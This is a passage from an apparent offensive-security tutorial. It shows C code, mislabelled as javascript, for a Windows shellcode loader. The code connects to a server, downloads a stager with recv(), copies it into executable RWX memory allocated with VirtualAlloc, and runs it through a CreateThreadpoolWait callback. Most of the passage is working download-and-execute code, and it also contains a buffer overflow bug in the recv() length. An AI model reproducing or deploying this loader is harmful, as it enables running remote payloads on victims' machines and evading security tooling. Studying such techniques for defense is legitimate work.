 The connect() function is used to connect to the server:

```javascript

if (connect(s, (struct sockaddr*)&cleanServer, sizeof(cleanServer)) < 0)
{
    printf("Error establishing connection with server\n");
    exit(1);
}
```

### Receiving Data

To receive that data we use the recv() function and store the response into the variable data:

```javascript
#define PAYLOAD_SIZE 1024
unsigned char data[PAYLOAD_SIZE];

if ((response_size = recv(s, (char*)data, 2048, 0)) == SOCKET_ERROR) {
		printf("Receving data failed\n");
	}
printf("%s\n", data);
printf("size: %d\n", sizeof(data));

data[response_size];

closesocket(s);
```

# Injecting and Executing Stager

Now that we have our stager downloaded into a variable we need to execute it somehow. There are many ways of doing so, I thought of trying out a technique I recently came across on <a href="https://www.ired.team/">ired.team</a>.

This technique executes shellcode by invoking a callback function passed to CreateThreadpoolWait. I'm not going to explain it in depth since it was explained well <a href="https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait">here</a>.

```javascript
//Create a signaled event
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
//Allocate RWX memory
LPVOID scodeAddress = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
//Copy the stager into the allocated memory
RtlMoveMemory(scodeAddress, data, sizeof(data));
//Creates a new wait object and set our buffer as the callback function
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)scodeAddress, NULL, NULL);
//Wait for our event to become signaled
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);
```
